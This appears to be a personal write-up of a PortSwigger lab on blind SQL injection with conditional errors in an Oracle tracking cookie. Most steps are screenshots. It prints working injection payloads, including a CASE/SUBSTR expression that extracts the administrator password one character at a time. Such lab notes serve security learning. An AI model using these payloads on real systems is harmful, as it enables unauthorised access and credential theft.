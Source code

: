 
### Lab Description

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

#### Hint

> This lab uses an Oracle database. For more information, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


#### Lab solution

- 1. Trigger error ( ' single quote at cookie)
![](../img/Pasted_image_20230529183051.png)
![](../img/Pasted_image_20230529183117.png)

- 2. Oracle database ( this will trigger an error because Oracle always required a from dual at the end of a command)
![](../img/Pasted_image_20230529183623.png)
![](../img/Pasted_image_20230529183724.png)

- 3. ow that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:
```sql
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```
- 4. Trigger the SQL true condition
![](../img/Pasted_image_20230529184138.png)

- 5. Enumerate user `administrator` ( if the error returned if enumerate user, otherwise the user not exists)
![](../img/Pasted_image_20230529184303.png)

- 6. how many characters are in the password of the `administrator`
![](../img/Pasted_image_20230529184516.png)
- 7. The next step is to test the character at each position to determine its value
`'||(SELECT CASE WHEN SUBSTR(password,20,1)='b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![](../img/Pasted_image_20230529185110.png)

- Lab Solved!


